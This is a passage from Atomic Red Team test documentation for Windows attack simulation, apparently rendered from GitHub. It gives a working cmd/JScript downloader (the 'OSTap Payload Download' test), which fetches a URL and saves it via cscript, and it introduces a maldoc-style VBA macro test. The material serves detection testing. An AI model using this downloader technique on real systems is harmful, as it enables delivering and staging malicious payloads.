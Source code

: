 ```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #2 - OSTap Payload Download

Uses cscript //E:jscript to download a file

**Supported Platforms:** Windows

**auto_generated_guid:** 3f3af983-118a-4fa1-85d3-ba4daa739d80

#### Inputs:

| Name        | Description                       | Type | Default Value                                                                    |
| ----------- | --------------------------------- | ---- | -------------------------------------------------------------------------------- |
| script_file | File to execute jscript code from | path | %TEMP%&#92;OSTapGet.js                                                           |
| file_url    | URL to retrieve file from         | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |

#### Attack Commands: Run with `command_prompt`!

```cmd
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile(filename, 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
```

#### Cleanup Commands:

```cmd
del #{script_file} /F /Q >nul 2>&1
```

<br/>
<br/>

## Atomic Test #3 - Maldoc choice flags command execution

This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders. Upon execution, CMD will be launched.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows

**auto_generated_guid:** 0330a5d2-a45a-4272-a9ee-e364411c4b18

#### Inputs:
